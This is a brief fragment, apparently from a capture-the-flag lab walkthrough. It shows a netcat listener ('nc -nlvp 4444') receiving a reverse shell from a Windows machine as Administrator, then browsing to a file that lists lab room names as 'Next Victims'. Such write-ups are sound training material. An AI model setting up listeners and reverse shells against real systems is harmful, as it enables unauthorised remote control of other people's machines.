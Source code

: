 
![deee393120201d255fa8163650f00bd6.png](../images/deee393120201d255fa8163650f00bd6.png)


```
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.9.188.76] from (UNKNOWN) [10.10.28.141] 50093
C:\Windows\system32> cd C:\Users\Administrator\Desktop\Hacking-Targets
C:\Users\Administrator\Desktop\Hacking-Targets> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop\Hacking-Targets

06/30/2023  06:40 PM    <DIR>          .
06/30/2023  06:40 PM    <DIR>          ..
06/27/2023  09:40 AM                53 hacking-targets.txt
               1 File(s)             53 bytes
               2 Dir(s)  14,100,426,752 bytes free
C:\Users\Administrator\Desktop\Hacking-Targets> type hacking-targets.txt
Next Victims: 
CyberLens, WorkSmarter, SteelMountain
C:\Users\Administrator\Desktop\Hacking-Targets>  

```
